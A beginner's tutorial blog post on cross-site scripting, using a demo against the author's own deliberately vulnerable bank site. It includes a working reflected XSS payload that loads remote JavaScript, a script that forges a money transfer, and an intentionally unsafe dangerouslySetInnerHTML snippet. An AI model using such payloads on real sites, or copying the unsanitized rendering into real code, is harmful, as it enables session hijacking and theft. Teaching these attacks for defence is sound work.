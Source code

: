 ```yaml
---
title: "Web Security 101: Cross-Site Scripting (XSS) Attacks"
date: "2020-06-01T12:00:00.000Z"
template: "post"
draft: false
slug: "/blog/xss/"
img:
category: "Security"
tags:
  - "Security"
  - "Web Development"
  - "For Beginners"
  - "Demo"
  - "Javascript"
description: A hands-on beginner's guide to what XSS attacks are and how to prevent them.
prev: "/blog/csrf/"
next: "/blog/properly-size-images/"
---
```


Cross-Site Scripting (XSS) vulnerabilities are one of the most dangerous web security holes that exist. In this post, we'll see an **interactive demo of XSS** and learn how to prevent it.

This is the second post in my [Web Security 101](/tag/security/) series. If you've read my introduction to CSRF, some of the preamble below might look familiar... feel free to skip ahead a bit.

## Setting the Scene

Picture this: you're a responsible, hardworking person. You've saved up your money over the years at **Definitely Secure Bank®**.

![The Definitely Secure Bank logo.](./media-link/csrf-post/dsb.svg)

You love Definitely Secure Bank - they've always been good to you, plus they make it easy to transfer money and more via their website. Sweet, right?

To get in character, let's have you open up your online banking portal and look around. <b><a href="https://dsb.victorzhou.com/login" target="_blank">Click here to open Definitely Secure Bank's website</a></b> and login. Use **any username** and **any password** you want (don't worry - it's _definitely_ secure). Keep that tab open for the rest of this post.

Once you've logged in, you should see a landing page that looks something like this:

![](./media-link/xss-post/dsb_1.png)

Click the **"Try searching for the answer"** link. That will bring you to the Search page. Try searching for anything:

![](./media-link/xss-post/dsb_2.png)

## One Fateful Day...

...you get an email titled: **FREE 🎁 iPhone giveaway!!!**

You open the email and click the link: **[Claim your free iPhone](
https://dsb.victorzhou.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.

> Yes, I actually want you to click this link for the purposes of the demo.

Assuming you were logged in to Definitely Secure Bank (DSB), you should see something like this after clicking the link:

![](./media-link/xss-post/dsb_3.png)

It's a little weird that it took you to your bank's website, but it just seems like a broken link, right? Nothing to worry about?

Click back to your DSB homepage, and you should see a new transfer:

![](./media-link/xss-post/dsb_4.png)

How did that happen?!

## How It Happened

The key vulnerability here is that the DSB search results page **echoes the search query without sanitizing it**. Remember this screenshot from earlier?

![](./media-link/xss-post/dsb_2.png)

Notice how the search query ("How do I transfer money") is echoed back onto the page: _Unfortunately, no results were found for **How do I transfer money**_.

What if our search query was a valid HTML string?

![](./media-link/xss-post/dsb_5.png)

Woah. That HTML `<a>` tag actually renders and functions as a link. Seems insecure, doesn't it?

Let's look at the demo attack from earlier. The attacker used a link to the DSB search results page of this format:

https://dsb.victorzhou.com/search?q=SEARCH_QUERY_HERE

The value of `SEARCH_QUERY_HERE` was the following string:

```
%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
```

Looks like nonsense, right? Turns out, when you [URL decode](https://www.quora.com/What-is-URL-encoding-and-decoding) this, you get:

```
<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
```

Seems a little more familiar now, doesn't it? Let me syntax highlight that for you:

```html
<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
```

It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's what the `onerror` code looks like after prettify-ing it:

```js
const a = document.createElement('script');
a.src = 'https://victorzhou.com/xss-demo.js';
document.body.appendChild(a);
```

This code downloads the `xss-demo.js` script (which could be _anything_) and executes it. Here's what it contained in our case:

```js
// Header: xss-demo.js
const body = new URLSearchParams('amount=5000&description=Gotcha!&to=XSS-Attackers');
fetch('/transfer', {
  body,
  method: 'post',
});
```
<figcaption>Uses the <a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API" target="_blank" rel="noopener noreferrer">Fetch API</a></figcaption>.

This sends an [HTTP POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) request to the Definitely Secure Bank's (DSB) `/transfer` endpoint with these parameters:

| Parameter | Value |
| --- | --- |
| `amount` | 5000 |
| `description` | Gotcha! |
| `to` | XSS-Attackers |

This creates a transfer request that **is identical to a legitimate transfer request** you would've created yourself. From DSB's perspective, there's no difference between the request created from `xss-demo.js` and one you would've made yourself. That's why XSS vulnerabilities are so dangerous - **the attacker can completely impersonate you** and do anything you could've done.

To summarize how clicking a spam link ended with you losing $5000:
- The link brought you to DSB's search results page, which reflects the search query.
- The search query was actually HTML code that caused your browser to download and execute an arbitrary script.
- That script sent a legitimate transfer request to the DSB server.
- The DSB server processed the request, since it saw nothing wrong.

There you have it: Cross-Site Scripting.

## Reflected vs. Stored XSS

The example above was an instance of **reflected XSS**, because it depended on DSB immediately reflecting a user input (the search query) back onto the page.

The other common type of XSS is **stored XSS** (or persistent XSS). This happens when the malicious code (usually an injected script, like in our example) is **stored on the target site's servers**. For example, allowing users to leave comments and storing those comments without sanitizing them would be a stored XSS vulnerability. An attacker could leave a malicious comment that injects a script, and **anyone who views that comment would be affected**.

## Do CSRF tokens protect against XSS?

You may have noticed that the `/transfer` endpoint has no [Cross-Site Request Forgery](/blog/csrf/) (CSRF) protection, which typically includes requiring a CSRF token. This was on purpose because it's used in my [CSRF demo](/blog/csrf), which I recommend reading if you don't know what CSRF is.

To answer the question: **CSRF protection does nothing to prevent XSS** because XSS attacks don't originate from a different site, whereas CSRF attacks do. When done correctly, a request created by an XSS attack looks completely legitimate.

## How _do_ you prevent XSS?

It's simple: **sanitize user inputs**. Anytime you're inserting untrusted (user-generated) data onto your webpage, clean it first.

_How_ to do this cleaning is a bit outside of the scope of this post, but the good news is that it often comes for free. For example, [React](https://reactjs.org/), which the DSB site is built with, uses [JSX](https://reactjs.org/docs/introducing-jsx.html) syntax, which automatically [escapes values before rendering](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) them, helping to prevent XSS attacks. To make the DSB search page vulnerable to XSS, I had to do this:

```jsx
<p>
  Unfortunately, no results were found for{' '}
  <span dangerouslySetInnerHTML={{ __html: query }} />.
</p>
```
<figcaption>
  DSB is open-source: you can see this code on <a href="https://github.com/vzhou842/definitely-secure-bank/blob/master/src/Search.js#L47-L50" target="_blank" rel="noopener noreferrer">Github</a>.
</figcaption>

Yup. It's named `dangerouslySetInnerHTML` for a reason.

If you're interested in the specifics of XSS prevention, I recommend this [XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html). Alternatively, if you want to learn more about web security in general, check out my [introduction to CSRF](/blog/csrf/).

Thanks for reading, and stay safe!
